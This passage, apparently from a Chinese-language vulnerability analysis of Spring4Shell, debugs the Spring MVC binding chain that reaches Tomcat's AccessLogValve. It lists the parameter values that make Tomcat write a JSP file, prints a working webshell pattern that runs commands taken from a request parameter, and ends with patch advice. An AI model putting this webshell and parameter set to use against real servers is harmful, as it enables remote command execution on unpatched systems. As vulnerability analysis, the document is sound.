很明显，这个参数是 SpringMVC 多层嵌套参数绑定。我们可以推测出如下的调用链：

```Java
User.getClass()
    java.lang.Class.getModule()
        ......
            SomeClass.setPattern()
```

那实际运行过程中的调用链是怎样的呢？`SomeClass`是哪个类呢？

**断点位置：**

- 在实现 SpringMVC 参数绑定的主要方法`WebDataBinder.doBind(MutablePropertyValues)`上设置断点。

- `AbstractNestablePropertyAccessor`的`getPropertyAccessorForPropertyPath(String)`方法。该方法通过递归调用自身，实现对`class.module.classLoader.resources.context.parent.pipeline.first.pattern`的递归解析，设置整个调用链。

- 在`AbstractNestablePropertyAccessor nestedPa = getNestedPropertyAccessor(nestedProperty);`设置断点，该行主要实现每层嵌套参数的获取。查看每次递归解析过程中各个变量的值，以及如何获取每层嵌套参数。

- `BeanWrapperImpl`的`BeanPropertyHandler.getValue()`方法中。可以看到`class`嵌套参数最终通过反射调用`User`的父类`java.lang.Object.getClass()`，获得返回`java.lang.Class`实例。

需要调用很多轮，最终看出调用链：

```Java
User.getClass()
    java.lang.Class.getModule()
        java.lang.Module.getClassLoader()
            org.apache.catalina.loader.ParallelWebappClassLoader.getResources()
                org.apache.catalina.webresources.StandardRoot.getContext()
                    org.apache.catalina.core.StandardContext.getParent()
                        org.apache.catalina.core.StandardHost.getPipeline()
                            org.apache.catalina.core.StandardPipeline.getFirst()
                                org.apache.catalina.valves.AccessLogValve.setPattern()
```

可以看到，`pattern`参数最终对应`AccessLogValve.setPattern()`，即将`AccessLogValve`的`pattern`属性设置为如下符合 access_log 的文件内容的格式。

> 具体格式可以参考https://tomcat.apache.org/tomcat-9.0-doc/config/valve.html#Access_Logging

```
%{c2}i if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = %{c1}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } %{suffix}i
```

攻击报文中的如下内容的添加也是为了符合 access_log 格式。

```
suffix: %>//
c1: Runtime
c2: <%
DNT: 1
```

最终的 jsp 马如下：(图中为了清楚，使用 vscode 格式化了一下)



**`suffix`参数**

- 参数名：`class.module.classLoader.resources.context.parent.pipeline.first.suffix`
- 参数值：`.jsp`

按照`pattern`参数相同的调试方法，`suffix`参数最终将`AccessLogValve.suffix`设置为`.jsp`，即 access_log 的文件名后缀。

**`directory`参数**

- 参数名：`class.module.classLoader.resources.context.parent.pipeline.first.directory`
- 参数值：`webapps/ROOT`

按照`pattern`参数相同的调试方法，`directory`参数最终将`AccessLogValve.directory`设置为`webapps/ROOT`，即 access_log 的文件输出目录。

这里提下`webapps/ROOT`目录，该目录为 Tomcat Web 应用根目录。部署到目录下的 Web 应用，可以直接通过`http://localhost:8080/`根目录访问。

**`prefix`参数**

- 参数名：`class.module.classLoader.resources.context.parent.pipeline.first.prefix`
- 参数值：`tomcatwar`

按照`pattern`参数相同的调试方法，`prefix`参数最终将`AccessLogValve.prefix`设置为`tomcatwar`，即 access_log 的文件名前缀。

**`fileDateFormat`参数**

- 参数名：`class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat`
- 参数值：空

按照`pattern`参数相同的调试方法，`fileDateFormat`参数最终将`AccessLogValve.fileDateFormat`设置为空，即 access_log 的文件名不包含日期。

#### 漏洞利用关键点

- Web 应用部署方式需要是 Tomcat war 包部署：从`java.lang.Module`到`org.apache.catalina.loader.ParallelWebappClassLoader`，是将调用链转移到 Tomcat，并最终利用`AccessLogValve`输出 webshell，而`ParallelWebappClassLoader`在 Web 应用以 war 包部署到 Tomcat 中时使用到。
- 在前面的第三个断点也就是`AbstractNestablePropertyAccessor nestedPa = getNestedPropertyAccessor(nestedProperty);`处，在 JDK 1.9 之后，Java 为了支持模块化，在`java.lang.Class`中增加了`module`属性和对应的`getModule()`方法，此时才能实现漏洞利用，以前的版本不支持。

- 某些版本的 tomcat 也不支持此利用链，不同版本的组合结果也不同，测试结果如下：

  

安全起见，升级 Spring 到 5.3.18 以上版本，tomcat 到 9.0.62 以上版本。
